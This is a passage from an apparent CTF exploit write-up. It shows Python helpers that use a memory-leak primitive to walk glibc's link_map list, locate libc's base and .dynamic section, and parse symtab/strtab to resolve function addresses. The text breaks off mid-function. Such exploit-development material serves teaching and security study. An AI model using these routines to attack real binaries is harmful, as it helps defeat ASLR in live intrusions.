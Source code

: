 ## Mining `libc` symbols

As explained earlier, a pointer to `libc_map` is stored at a known address into the `.got.plt` table. 

### Surfing `link_map` to find libc

The `link_map` structure definition can be found in `/usr/include/link.h`:

```c
struct link_map
  {
    /* These first few members are part of the protocol with the debugger.
       This is the same format used in SVR4.  */

    ElfW(Addr) l_addr;          /* Base address shared object is loaded at.  */
    char *l_name;               /* Absolute file name object was found in.  */
    ElfW(Dyn) *l_ld;            /* Dynamic section of the shared object.  */
    struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
  };
```

Actually, the full `link_map` structure is more complex than this, but the above are the only fields which are safe to be used, because they are standardized and unlikely to change between versions.

My naive python code to traverse the list and get libc base and dynamic section is as follows:

```python
def get_libc(link_map):

    base = upleak(link_map)
    name = leak(upack(leak(link_map+8)))
    dynamic = upleak(link_map+16)
    nextp = upleak(link_map+24)

    if name.find(bytes('libc', 'utf-8')) >= 0:
        return (base, dynamic)
        
    if nextp != 0:
        return get_libc(nextp)
```

### Extracting function offset from `.dynamic` section

Armed with the libc base and dynamic section addresses, it is possible to continue porting to 64-bits the same solution found in [[2]](https://github.com/ctfs/write-ups-2014/blob/master/hack-lu-ctf-2014/oreo/exploit-by-cutz.pl), digging for `strtab` and `symtab`, then parsing `.dynamic` section and search for desired (or even all) symbols:

```python
def get_str_symtab(dynamic):
    strtab = 0
    symtab = 0
    i = 0
    while (strtab == 0 or symtab == 0):
        typ = upack(leak(dynamic + i))
        if typ == 5:
            strtab = upleak(dynamic + i + 8)
        elif typ == 6:
            symtab = upleak(dynamic + i + 8)
        i += 16
    return (strtab, symtab)

def get_symbol(symbol, strtab, symtab, libc_map):
    i = libc_map.last_scanned_offset
    while True:
        offset = upack32(leak(symtab+i)) 
```